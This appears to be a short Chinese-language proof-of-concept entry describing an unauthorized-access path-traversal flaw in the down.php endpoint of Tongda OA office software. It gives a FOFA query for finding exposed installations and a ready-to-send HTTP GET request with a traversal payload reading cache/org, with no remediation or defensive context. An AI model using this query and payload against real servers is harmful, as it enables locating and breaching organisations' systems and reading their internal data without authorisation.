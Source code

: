 
## 通达OA down.php接口存在未授权访问漏洞

## fofa
```
app="TDXK-通达OA"
```

## poc

```
http://127.0.0.1/inc/package/down.php?id=../../../cache/org

GET /inc/package/down.php?id=../../../cache/org HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```
